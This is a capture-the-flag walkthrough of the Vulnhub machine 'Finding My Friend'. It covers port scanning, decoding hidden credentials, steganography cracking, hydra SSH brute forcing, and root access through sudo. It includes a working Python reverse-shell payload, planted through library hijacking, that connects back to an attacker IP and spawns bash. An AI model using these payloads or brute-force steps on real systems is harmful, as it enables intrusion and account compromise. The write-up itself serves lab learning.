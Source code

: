 ```yaml
---
title: "Finding My Friend - Vulnhub CTF Walkthrough"
---
```


#### nmap scan
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ nmap -p- -sV 192.168.56.173
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 16:54 EDT
Nmap scan report for 192.168.56.173
Host is up (0.00044s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
{% endhighlight %}


#### gobuster
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.173 -q -x html,php,txt
/images               (Status: 301) [Size: 317] [--> http://192.168.56.173/images/]
/index.html           (Status: 200) [Size: 2275]                                   
/friend               (Status: 301) [Size: 317] [--> http://192.168.56.173/friend/]
{% endhighlight %}

Navigating to the `friend/` directory and looking through the source code shows
`NjMgNjEgNzAgNzQgNzUgNzIgNjUgM2EgNjggNzUgNmUgNzQgNjkgNmUgNjc=`

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ echo "NjMgNjEgNzAgNzQgNzUgNzIgNjUgM2EgNjggNzUgNmUgNzQgNjkgNmUgNjc=" | base64 -d
63 61 70 74 75 72 65 3a 68 75 6e 74 69 6e 67 
{% endhighlight %}

Converting the hey to ascii shows a username and pasword: `capture:hunting`
Time to try it with FTP


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ ftp 192.168.56.173      
Connected to 192.168.56.173.
220 (vsFTPd 3.0.3)
Name (192.168.56.173:kali): capture
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x---    2 1002     1002         4096 Jan 06 07:45 .
drwxr-x---    2 1002     1002         4096 Jan 06 07:45 ..
-rwxr-x---    1 1002     1002       430882 Jan 06 07:45 .get.jpg
-rwxr-x---    1 1002     1002           29 Jan 06 07:45 flag1.txt
-rwxr-x---    1 1002     1002        34608 Jan 06 07:45 getme
-rwxr-x---    1 1002     1002           76 Jan 06 07:45 note.txt
226 Directory send OK.
ftp>
{% endhighlight %}

Getting the first flag:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ cat flag1.txt            
tryhackme{Th1s1sJustTh3St4rt}
{% endhighlight %}

Running strings on the `getme` data showed the following: 
{% highlight text %}
iTXtXML:com.adobe.xmp
<?xpacket begin='
' id='W5M0MpCehiHzreSzNTczkc9d'?>
<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image::ExifTool 12.03'>
<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
 <rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:rights>
   <rdf:Alt>
    <rdf:li xml:lang='x-default'>This might help you A@==:E@</rdf:li>
   </rdf:Alt>
  </dc:rights>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end='r'?>of
]gy'nC2-3k2
{% endhighlight %}

note.txt: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ cat note.txt 
I have an image but I’m not able to open it. Can you help me to open it?
{% endhighlight %}


Using `stegcracker` to crack the `get.jpg`: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ stegcracker get.jpg /usr/share/wordlists/rockyou.txt                        2 ⨯
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'get.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: pollito
Tried 975 passwords
Your file has been written to: get.jpg.out
pollito
{% endhighlight %}

The data extracted is in morse code, so let's throw that into a translator: 
`.--- --- .... -. ---... -... --- --- --. .. . .-- --- --- --. .. .`
to:
`john:boogiewoogie`

so we've got credentials for either ssh or ftp. It didn't work with FTP, so let's 
see about SSH.

Got a shell. Here's the second flag
{% highlight terminal %}
tryhackme{gI33fuIbutM0r3t0gO}
{% endhighlight %}


Time to enumerate the local file system to see if there's anything
useful:

clue.txt:
{% highlight text %}
You need to find which college is she studying.



Hint: Her brother parth knows that.
{% endhighlight %}

Brute forcing `parth` with hydra: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/finding-my-friend]
└─$ hydra -l parth -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.173 -V
-- SNIP! --

[22][ssh] host: 192.168.56.173   login: parth   password: johnnydepp

{% endhighlight %}

Getting the third flag: 
`tryhackme{Sh3is@lm0stn3@rtoY0u}`

Another clue in the `honey.txt` file after logging into the `parth` user: 
{% highlight text %}
My home directory might help you.
{% endhighlight %}


{% highlight terminal %}
parth@findingmyfriend:~$ sudo -l
Matching Defaults entries for parth on findingmyfriend:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User parth may run the following commands on findingmyfriend:
    (honey) NOPASSWD: /home/honey/.../backup.py

{% endhighlight %}

What does `backup.py` do?

{% highlight python %}
#!/usr/bin/env python3
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/tmp/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/findingmyfriend', zipf)
    zipf.close()
{% endhighlight %}

This script backs up the website to the `tmp` directory as a zip file. parth has no
write permissions on the script. using the [following method](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) we'll hijack the `zipfile`
library and get a reverse shell on the system. 


{% highlight python %}
import os
import pty
import socket

lhost = "192.168.56.101"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
{% endhighlight %}

After getting the file on the system, we'll set up a listener on the attacking
machine. After doing so we can check `sudo -l` to see what this user can run on the 
system: 

{% highlight terminal %}
honey@findingmyfriend:/home$ sudo -l
sudo -l
Matching Defaults entries for honey on findingmyfriend:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User honey may run the following commands on findingmyfriend:
    (ALL) NOPASSWD: ALL
honey@findingmyfriend:/home$ 
{% endhighlight %}

Now we can use `sudo -i` to get a root shell: 
{% highlight terminal %}
honey@findingmyfriend:/home$ sudo -i
sudo -i
root@findingmyfriend:~# 
{% endhighlight %}


Getting the final flag after getting root: 
`tryhackme{F1n@llyIFInD3dH3r}`
